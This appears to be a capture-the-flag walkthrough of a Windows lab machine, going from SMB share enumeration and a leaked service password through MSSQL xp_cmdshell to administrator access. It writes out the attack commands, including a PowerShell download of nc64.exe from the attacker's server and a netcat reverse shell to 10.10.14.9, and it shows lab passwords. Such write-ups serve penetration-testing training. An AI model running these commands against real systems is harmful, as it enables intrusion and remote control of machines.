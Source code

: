 # 1. Enumeration

- Performing a network scan to detect what ports are open:

![img_2.png](img/img_2.png)
![img_1.png](img/img_1.png)

- We found that SMB ports are open and also that a Microsoft SQL Server is running on port 1433. We are going to enumerate
the SMB with `smbclient`:

![img.png](img/img.png) 

- We located a couple of interesting shares. Shares `ADMIN$` and `C$` cannot be accessed as the `Access Denied` error states,
however, we can access the `backup` share:

![img_3.png](img/img_3.png)

- `pord.dtsConfig` seems like a configuration file. We can download it and view it's content:

![img_4.png](img/img_4.png)

- By reviewing the content of this file, we spot in cleartext the password of `sql_svc`, which is `M3g4c0rp123`, for
the host `ARCHETYPE`. With the provided credentials, we just need a way to authenticate and interact to the MSSQL server.
`Impacket` tool includes a valuable python script called `mssqlclient.py` which offers such functionality.

---
```
Impacket is a collection of Python classes for working with network protocols. Impacket
is focused on providing low-level programmatic access to the packets and for some
protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be
constructed from scratch, as well as parsed from raw data, and the object oriented API
makes it simple to work with deep hierarchies of protocols. The library provides a set
of tools as examples of what can be done within the context of this library.
```
---

- We can try to connect to the MSSQL Server by using the following command:

```
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```

```
-windows-auth : this flag is specified to use Windows Authentication
```

![img_5.png](img/img_5.png)

# 2. Foothold

- First, we need to enable `xp_cmdshell`  to set up the command execution:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

- Now, we will attempt to get a stable reverse shell. We will upload the `nc64.exe` binary to the target machine and execute
an interactive `cmd.exe` process on our listening port.

- Start an HTTP server and netcat listener:

```
python -m http.server 80
nc -lnvp 443
```

- In order to upload the binary to the target system, we need to find the appropriate folder (C:\Users\sql_svc\Downloads). 

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"
```

- We can verify on our python server that the target machine indeed performed the request:

![img_6.png](img/img_6.png)

- Now, we can bind the `cmd.exe` through `nc` to our listener:

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
10.10.14.9 443"
```

- Finally, we have successfully established a reverse connection from the target machine to our netcat listener:

![img_7.png](img/img_7.png)


- The user flag can be found under `C:\Users\sql_svc\Desktop`

# 3. Privilege Escalation

- For privilege escalation, we are going to use a tool called `winPEAS`, which can automate a big part of the 
enumeration process in the target system. 
More info <a href="https://academy.hackthebox.com/course/preview/windows-privilege-escalation">here</a>

- Again, we will transfer the binary to the target system by using once more the Python HTTP server:

![img_8.png](img/img_8.png)

- Now execute it and wait for the magic to happen. Note that the output is very long, but here is the important part:

![img_9.png](img/img_9.png)

- From the output we can observe that we have `SeImpersonatePrivilege` (more info
<a href="https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege">here</a>)
, which is vulnerable to <a href="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato">juicy potato exploit</a>.
However, we can first check the 2 existing files where credentials could possibly be found.

- As this is normal user account as well as service account, it is worth checking for frequently access files or 
executed commands (`ConsoleHost_history.txt`)

![img_10.png](img/img_10.png)

- We got in cleartext the password for the Administrator user which is `MEGACORP_4dm1n!!`

- We can now use the tool `psexec.py` again from the `Impacket` suite to get a shell as the administrator:

![img_11.png](img/img_11.png)

- The root flag can now be found on the Desktop of the Administrator user